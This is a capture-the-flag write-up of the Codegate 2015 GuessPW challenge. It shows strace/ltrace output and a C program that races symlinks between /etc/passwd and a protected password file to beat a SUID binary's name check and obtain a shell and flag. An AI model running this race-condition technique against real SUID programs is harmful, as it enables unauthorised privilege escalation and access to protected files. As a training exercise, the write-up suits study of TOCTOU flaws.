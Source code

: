 ```yaml
---
layout: post
title: "Codegate 2015 GuessPW"
date: 2015-03-18 09:25:10 -0400
author: [superkojiman,barrebas,swappage]
comments: true
categories: [codegate]
---
```


### Solved by superkojiman, barrebas, Swappage

guesspw is a SUID guesspw binary that takes a file as an argument. The contents of this file is compared with /home/guesspw/password and if they're the same, it gives us a shell. Naturally we don't have read permissions on /home/guesspw/password so we'll need to find a different way to get a shell.

I recreated the environment on the challenge server and used strace and ltrace to give me an idea of what was going on: 

```
# strace ./guesspw wut

getcwd("/root/codegate/guesspw", 4096)  = 23
lstat64("/root/codegate/guesspw/wut", {st_mode=S_IFREG|0644, st_size=23, ...}) = 0
open("/home/guesspw/password", O_RDONLY) = 3
open("/root/codegate/guesspw/wut", O_RDONLY) = 4
read(4, "this is a test message\n", 128) = 23
read(3, "hello\n", 128)                 = 6
exit_group(0)                           = ?
```

Here we see that my input file wut's contents didn't match the contents of the password file so it quit. But if they're the same, then we get our shell:

```
open("/home/guesspw/password", O_RDONLY) = 3
open("/root/codegate/guesspw/wut", O_RDONLY) = 4
read(4, "hello\n", 128)                 = 6
read(3, "hello\n", 128)                 = 6
geteuid32()                             = 0
geteuid32()                             = 0
geteuid32()                             = 0
setresuid32(0, 0, 0)                    = 0
execve("/bin/sh", ["sh"], [/* 37 vars */]) = 0
```

Could we just providet the actual password file then since the binary is guesspw and can therefore read it? No, as it turns out the binary checks the file's name using strstr(). If it contains "password" or "flag", it exits:

```
# ltrace ./guesspw wut
__libc_start_main(0x8048620, 2, 0xff92a194, 0x80495d0, 0x8049640 <unfinished ...>
memset(0xff928e70, '\000', 128)                                                                               = 0xff928e70
memset(0xff928df0, '\000', 128)                                                                               = 0xff928df0
realpath(0xff92a5ea, 0xff928f10, 128, 0, 0)                                                                   = 0
strstr("/home/guesspw/wut", "password")                                                                       = NULL
strstr("/home/guesspw/wut", "flag")                                                                           = NULL
open("/home/guesspw/password", 0, 0200)                                                                       = 3
open("/home/guesspw/wut", 0, 0200)                                                                            = -1
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

Sure enough, if I used wut_password, it quits:

```
# ltrace ./guesspw wut_password_flag 
__libc_start_main(0x8048620, 2, 0xffcc9dc4, 0x80495d0, 0x8049640 <unfinished ...>
memset(0xffcc8aa0, '\000', 128)                                                                               = 0xffcc8aa0
memset(0xffcc8a20, '\000', 128)                                                                               = 0xffcc8a20
realpath(0xffcca5dc, 0xffcc8b40, 128, 0, 0)                                                                   = 0xffcc8b40
strstr("/home/guesspw/wut_password_flag", "password")                                                         = "password_flag"
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

The calls to strstr() occur before open(), which led us to wonder if we could trigger a race condition. If we create a symlink to say /etc/passwd, then strstr() would pass. Then right after that, quickly update the symlink to point to /home/guesspw/password before open() was called. I reused some old code I'd written to exploit a race condition in a previous boot2root. I created the following C file, /tmp/skoji/race.c

```c
int main(int argc, char *argv[]) {
    while (1) {
        symlink("/etc/passwd", "/tmp/skoji/foo"); 
        unlink("/tmp/skoji/foo"); 

        symlink("/home/guesspw/password", "/tmp/skoji/foo"); 
        unlink("/tmp/skoji/foo"); 
    }
    return 0;
}
```

This infinite loop symlinks /tmp/skoji/foo to /etc/passwd and then removes it and symlinks it to /home/guesspw/password.

Compile: 

```plain
gcc race.c -o race
```

Now we run it and set a nice value to give it higher priority over guesspw: 

```
user@cg2015-1:/tmp/skoji$ nice -n 1 ./race
```

In another terminal, run guesspw. After several minutes we should win the race: 

```
user@cg2015-1:/home/guesspw$ while :; do ./guesspw /tmp/skoji/foo ; doneuser@\h:\w$         
user@\h:\w$ 
user@\h:\w$ id
uid=1003(guesspw) gid=1366(user1366) groups=1366(user1366)
user@\h:\w$ ls
flag  guesspw  password
user@\h:\w$ cat flag
cheapestflagever
```

The flag is ***cheapestflagever***
